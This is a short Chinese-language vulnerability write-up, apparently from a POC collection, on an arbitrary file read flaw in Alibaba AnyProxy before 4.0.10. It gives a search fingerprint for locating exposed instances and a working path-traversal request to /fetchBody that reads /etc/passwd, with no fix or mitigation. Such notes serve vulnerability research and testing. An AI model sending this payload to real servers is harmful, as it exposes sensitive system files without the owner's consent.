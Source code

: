# Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

```
Alibaba AnyProxy < 4.0.10
```

## 网络测绘

```
"anyproxy"
```

## 漏洞复现

页面如下

![](./images/202202102008909.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```



![](./images/202202102008683.png)

